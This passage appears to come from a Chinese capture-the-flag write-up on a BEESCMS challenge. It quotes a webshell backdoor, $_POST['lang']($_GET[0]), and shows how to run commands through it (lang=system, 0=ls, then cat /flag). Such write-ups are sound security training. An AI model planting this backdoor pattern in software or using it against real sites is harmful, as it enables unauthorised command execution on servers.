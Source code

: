 ![ctf2](/assets/themes/images/beescms/2.PNG)  
看到$_POST['lang']($_GET[0]);很明显，这是一个木马，但是比常见的一句话木马稍微复杂一点，需要构造参数lang和0：  
Post:lang=system  
Get:0=ls  
![ctf3](/assets/themes/images/beescms/3.PNG)  
要拿flag的话将0=cat  /flag即可：  